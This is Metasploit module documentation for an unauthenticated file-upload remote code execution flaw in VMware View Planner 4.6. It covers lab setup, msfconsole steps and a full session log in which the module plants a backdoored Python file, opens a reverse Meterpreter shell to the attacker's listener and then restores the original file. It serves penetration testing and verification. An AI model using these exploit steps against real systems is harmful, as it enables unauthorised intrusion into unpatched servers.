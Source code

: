 ## Vulnerable Application
VMWare View Planner 4.6 prior to 4.6 Security Patch 1 contained an log file upload script,
named `log_upload_wsgi.py`, which was mapped on to the web page `/logupload` and available
to unauthenticated users. Furthermore, unauthenticated users could browse the source code of
this file by navigating to `/wsgi_log_upload/log_upload_wsgi.py`, giving them an easy way to
ensure that they restored the original contents of the `log_upload_wsgi.py` file.

The module takes advantage of these two properties to first obtain the contents of the
`log_upload_wsgi.py` file and then overwrite it with a backdoored copy. Once a request has been
sent to `/logupload` to trigger the payload, the original copy of `log_upload_wsgi.py` is then
restored to ensure the target can continue its normal operations. Successful exploitation results
in RCE as the `apache` user within the `appacheServer` Docker container.

### Setup Steps

1. Sign up for an account at https://my.vmware.com/web/vmware/registration
1. Browse to https://my.vmware.com/web/vmware/downloads/details?downloadGroup=VIEW-PLAN-460&productId=1067&rPId=53394 and download the OVA file for View Planner Harness.
1. Verify the name of the downloaded OVA is viewplanner-harness-4.6.0.0-16995088_OVF10.ova and its hash is 4639f1916ffd30095cf5af383f38f7de
1. Install the VM and boot it up. When you get to the main screen, which will take several minutes, select Login with the arrow keys and log in with the username `root` and password `changeme`.
1. Run `~/viewplanner/setup/harness_first_boot.sh` to start the server.
1. Verify that the web server is accessible over port 80 or 443 and that the page at `/logupload` is accessible.

## Verification Steps

1. Install the server
1. Start msfconsole
1. Do: `use exploit/linux/http/vmware_view_planner_4_6_uploadlog_rce`
1. Do: `set rhosts [Target IP]`
1. Do: `set lhost [Local IP]`
1. Do: `exploit`
1. You should get a shell as the `apache` user on the target machine.
1. You should also see that the original copy of `log_upload_wsgi.py` is restored after you get a shell.

## Options

## Scenarios

### VMWare View Planner 4.6.0.0 OVA (viewplanner-harness-4.6.0.0-16995088_OVF10.ova)

```
msf6 > use exploit/linux/http/vmware_view_planner_4_6_uploadlog_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > set RHOSTS 172.18.51.76
RHOSTS => 172.18.51.76
msf6 exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > set LHOST 172.18.54.135
LHOST => 172.18.54.135
msf6 exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > show options

Module options (exploit/linux/http/vmware_view_planner_4_6_uploadlog_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.18.51.76     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.18.54.135    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   VMware View Planner 4.6.0

msf6 exploit(linux/http/vmware_view_planner_4_6_uploadlog_rce) > exploit

[*] Started reverse TCP handler on 172.18.54.135:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Vulnerable log_upload_wsgi.py file identified!
[*] Uploading backdoor to system via the arbitrary file upload vulnerability!
[+] Backdoor uploaded!
[*] Sending request to execute the backdoor!
[*] Sending stage (39344 bytes) to 172.18.51.76
[*] Reuploading the original code to remove the backdoor!
[+] Original file restored, enjoy the shell!
[*] Meterpreter session 2 opened (172.18.54.135:4444 -> 172.18.51.76:53278) at 2021-03-10 16:34:37 -0600

meterpreter > getuid
Server username: apache
meterpreter > sysinfo
Computer     : cf49e2261af4
OS           : Linux 4.9.137-1.ph2 #1-photon SMP Tue Nov 20 14:26:55 UTC 2018
Architecture : x64
Meterpreter  : python/linux
meterpreter > pwd
/
meterpreter >
```
